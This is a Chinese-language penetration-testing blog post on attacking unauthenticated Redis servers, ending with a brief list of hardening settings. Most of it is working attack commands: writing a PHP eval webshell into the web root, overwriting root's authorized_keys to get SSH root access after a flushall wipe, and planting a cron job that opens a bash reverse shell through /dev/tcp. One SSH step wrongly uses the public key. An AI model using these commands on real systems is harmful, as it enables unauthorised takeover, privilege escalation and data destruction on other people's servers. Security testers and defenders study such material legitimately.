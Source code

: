 ```yaml
---
layout: post
title: Redis安全总结
tags: [penetration]
categories: categories
---
```


1. 未授权访问
2. 获取webshell
3. 获取root
4. 通过redis提权
5. 其他的一些利用
6. redis安全配置




```
测试环境 CentOS 6.5 x64
```

**未授权访问**

默认安装redis，其中启动权限就为root。并且是任意ip可以未授权访问。

![2276273468](/old_img/2017-04-17-2276273468.jpg)

![91190645](/old_img/2017-04-17-91190645.jpg)


* * *

**获取webshell**

条件：知道web绝对路径，redis运行的用户需要对web目录要有写的权限

http://10.211.55.10/phpinfo.php

然后通过客户端链接

redis-cli -h 10.211.55.10

```
config set dir /var/www/html/

set shell <?php eval($_REQUEST[\'syclover\'])?>

config set dbfilename syclover.php

save

exit
```
存在的问题,如果redis里面的数据量特别大并且前面存在<?php 之类的符号

先通过randomkey来查看键值之间的规律，然后可以将数据库备份下来，找到包含<?php 的键名，通过 keys \*str\*找到真正的键名，然后去修改这个键名。因为数据量很大所以备份的shell也很大，然后在生成shell的时候，可以设置不超时，并且在生成完成之后就退出。

* * *

**获取root**

```
victim server CentOS6.6+redis2.4  192.168.192.133

attack server CentOS6.6  192.168.192.132

```

先在attack server生成一个公钥

```
 ssh-keygen -t rsa -C "redis"
(echo -e "\n\n"; cat redis.pub; echo -e "\n\n") > redis.txt
```
然后执行

```
redis-cli -h 192.168.192.133 flushall

cat redis.txt | redis-cli -h 192.168.192.133 -x set pwn

```
登录redis  redis-cli -h 192.168.192.133

```
CONFIG set dir /root/.ssh/
config set dbfilename "authorized_keys"
save
exit
```
然后就可以使用ssh的私钥登录了

```
ssh -i redis.pub root@192.168.192.133
```
![2436203329](/old_img/2017-04-17-2436203329.png)



缺点：flushall 太暴力直接清空数据库，覆盖authorized_keys，导致原有的认证失效。

**通过redis提权**

获取了一个webshell，但是权限很低，发现存在redis服务但是只能本地访问。然后通过上面的方法可以成功提权


* * *

**其他玩法**

redis+crontab

```
redis-cli config set dir /var/spool/cron/

redis-cli config set dbfilename root

echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/8443 0>&1 \n\n"|redis-cli -x set 1

redis-cli save

nc -lvv 8443
```

* * *


**redis安全配置**

1. 设置只对本机开放  bind 127.0.0.1
2. 设置密码         requirepass tomato
3. 修改默认端口      12345
4. 低权限启动
5. 如果需要对外提供服务的话，设置iptables规则


**参考**

[http://antirez.com/news/96](http://antirez.com/news/96)

[http://zone.wooyun.org/content/23858](http://zone.wooyun.org/content/23858)

